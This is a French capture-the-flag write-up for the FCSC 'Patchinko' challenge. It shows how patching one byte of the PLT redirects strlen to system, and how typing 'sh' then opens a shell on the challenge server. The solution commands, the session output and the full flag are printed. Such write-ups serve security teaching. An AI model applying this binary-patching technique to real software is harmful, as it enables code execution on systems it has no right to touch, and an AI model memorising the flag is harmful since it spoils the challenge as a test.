


# Pwn - Patchinko
  
D'après l'énoncé, il est possible de patcher le binaire avant de l'exécuter. Nous allons voir ça tout de suite, on se connecte au challenge :  
```
$ nc challenges1.france-cybersecurity-challenge.fr 4009
================================
== Patchinko Gambling Machine ==
================================

We present you the new version of our Patchinko Gambling Machine!
This is a game of chance: you need to guess a 64-bit random number.
As we have been told that it is quite hard, we help you.
Before the machine executes its code, you can patch *one* byte of its binary.
Choose wisely!

At which position do you want to modify (base 16)?
>>> 1
Which byte value do you want to write there (base 16)?
>>> 1
== Let's go!
```  
On peut donc changer un seul octet du binaire, reste à savoir lequel.  
On récupère le binaire du challenge, un petit ``file patchinko.bin`` puis on le désassemble pour voir ce qu'il contient.  
```
$ file patchinko.bin 
patchinko.bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=ea28c1aa273a99a5c9323b062e3277734bbed0be, not stripped
$ cutter patchinko.bin
```  
C'est un ELF 64 bits, les adresses feront donc ... 64 bits soit 8 octets.  
  
Avant même de s'intéresser à ce que Ghidra nous a sorti, on remarque que la fonction ``system`` est utilisée dans le binaire :  
```
sym.imp.system      6       0x004006d0
```  
Elle est appelée dans ``main`` :  
```c
system("echo Hello! Welcome to Patchinko Gambling Machine.");
```  
On ne voit pas de fonction spéciale à appeler ou de condition à remplir pour afficher le flag.  
Il faut trouver un octet à changer pour nous permettre d'avoir un shell.  
On pourrait modifier une entrée de la partie résolution de la PLT (Procedure Linkage Table) afin de la faire pointer vers ``system``.  
Rappel :  
```c
int system(const char *command);
```  
Tout d'abord, regardons à quels endroits nous contrôlons le contenu d'une variable ou d'un buffer :  
```c
printf("Is this your first time here? [y/n]\n>>> ");
fgets(&s, 4, _reloc.stdin);
iVar1 = strlen(&s);
```  
```c
printf("Welcome among us! What is your name?\n>>> ");
fgets(&var_50h, 0x40, _reloc.stdin);
iVar1 = strlen(&var_50h);
*(undefined *)((int64_t)&ptr + iVar1 + 7) = 0;
printf("Nice to meet you %s!\n", &var_50h);
```  
```c
puts("Guess my number");
*(undefined8 *)0x0 = (char *)fopen("/dev/urandom", 0x400b20);
fread(&ptr, 8, 1, *(undefined8 *)0x0);
printf(0x400b2f, ptr);
__isoc99_scanf("%lld", &var_60h);
```  
Parmis les fonctions qui font passer en argument une variable que l'on contrôle, ``strlen`` est la seule qui demande un seul argument de type ``const char *`` exactement comme ``system``.  
On va donc changer ``strlen`` par ``system`` en modifiant son entrée dans la PLT.  
On regarde l'opcode pour ``system`` :  
```
0x004006d0:     ff2562092000    jmp qword [rip + 0x200962];
```  
Et pour ``strlen`` :  
```
0x004006c0:     ff256a092000    jmp qword [rip + 0x20096a];
```  
Parfait ! Un seul octet diffère, on a trouvé quel octet changer !  
Il faudra donc remplacer ``6a`` par ``62`` maiiiis ... nous changeons les adresses contenues dans la PLT et comme on peut le voir, ce n'est pas une adresse mais un offset (un décalage) par rapport à une adresse précise (``rip`` dans notre exemple, donc par rapport à l'endroit où l'on se situe).  
Et comme ``0x004006d0 - 0x004006c0 = 0x10`` on fait ``0x62 + 0x10 = 0x72``, on remplacera donc notre ``6a`` par ``72``.  
Maintenant il faut trouver à quel endroit dans le binaire se trouve ce fameux octet que l'on doit changer.  
```
$ xxd patchinko.bin | grep "6a09"
000006c0: ff25 6a09 2000 6803 0000 00e9 b0ff ffff  .%j. .h.........
```  
Le ``6a`` se trouve à l'adresse ``0x6c2`` dans le binaire.  
On a :  
* l'adresse de l'octet à changer : ``0x6c2``
* et sa nouvelle valeur : ``0x72``  

Mais c'est pas tout, il savoir à quel moment ``strlen`` sera appelé pour donner le bon argument à ``system``.  
Voici ce que Ghidra nous sort pour le ``main`` :  
```c
undefined8 main(void)
{
    int64_t iVar1;
    int64_t var_60h;
    int64_t ptr;
    char *var_50h;
    char cStack21;
    char *s;
    
    setvbuf(_reloc.stdout, 0, 2, 0);
    system("echo Hello! Welcome to Patchinko Gambling Machine.");
    do {
        printf("Is this your first time here? [y/n]\n>>> ");
        fgets(&s, 4, _reloc.stdin);
        iVar1 = strlen(&s); // <--------- ici
        (&cStack21)[iVar1] = '\0';
        if ((char)s == 'y') break;
    } while ((char)s != 'n');
    if ((char)s == 'n') {
        puts("Welcome back then!");
    } else {
        printf("Welcome among us! What is your name?\n>>> ");
        fgets(&var_50h, 0x40, _reloc.stdin);
        iVar1 = strlen(&var_50h);
        *(undefined *)((int64_t)&ptr + iVar1 + 7) = 0;
        printf("Nice to meet you %s!\n", &var_50h);
    }
    puts("Guess my number");
    *(undefined8 *)0x0 = (char *)fopen("/dev/urandom", 0x400b20);
    fread(&ptr, 8, 1, *(undefined8 *)0x0);
    printf(0x400b2f, ptr);
    __isoc99_scanf("%lld", &var_60h);
    fclose(stack0xfffffffffffffff0);
    if (var_60h == ptr) {
        puts("Wow, you win!! Congratulations! Contact us to claim your prize.");
    } else {
        printf("Close but no! It was %lld. Try again!\n", ptr);
    }
    return 0;
}
```  
Donc quand le programme affichera ``Is this your first time here? [y/n]\n>>> `` il faudra répondre ``sh`` et normalement on aura notre shell.  
On se connectes au challenge pour vérifier ça :  
```
$ nc challenges1.france-cybersecurity-challenge.fr 4009
================================
== Patchinko Gambling Machine ==
================================

We present you the new version of our Patchinko Gambling Machine!
This is a game of chance: you need to guess a 64-bit random number.
As we have been told that it is quite hard, we help you.
Before the machine executes its code, you can patch *one* byte of its binary.
Choose wisely!

At which position do you want to modify (base 16)?
>>> 6c2
Which byte value do you want to write there (base 16)?
>>> 72
== Let's go!
Hello! Welcome to Patchinko Gambling Machine.
Is this your first time here? [y/n]
>>> sh
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
ls -la
total 28
drwxr-xr-x 1 root root 4096 Apr 26 14:20 .
drwxr-xr-x 1 root root 4096 Apr 26 14:55 ..
-rw-r--r-- 1 root root   71 Apr 26 14:19 flag
-rwxr-xr-x 1 root root 8912 Apr 26 14:20 patchinko.bin
-rw-r--r-- 1 root root 1408 Apr 26 14:19 patchinko.py
cat flag
FCSC{b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc4475102998}
```  
  
**FLAG : FCSC{b4cbc07a77bb0984b994c9e34b2897ab49f08524402c38621a38bc4475102998}**